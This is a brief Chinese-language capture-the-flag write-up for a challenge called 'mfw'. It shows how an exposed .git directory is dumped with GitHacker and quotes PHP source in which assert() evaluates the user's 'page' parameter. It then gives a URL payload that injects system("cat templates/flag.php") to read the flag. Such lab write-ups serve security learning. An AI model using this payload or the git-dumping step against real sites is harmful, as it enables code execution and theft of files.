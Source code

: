

# mfw

* git泄露
``` 
pip install requests
git clone https://github.com/wangyihang/GitHacker.git
python GitHacker.py [Website]

```

* 查看index页面
> assert()函数会将读入的代码当做PHP代码来执行
``` 
<?php

if (isset($_GET['page'])) {
	$page = $_GET['page'];
} else {
	$page = "home";
}

$file = "templates/" . $page . ".php";

// I heard '..' is dangerous!
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

// TODO: Make this look nice
assert("file_exists('$file')") or die("That file doesn't exist!");

?>
html代码........

```

* 构造payload, 查看网页源码 
> /?page=%27.system("cat%20templates/flag.php").%27


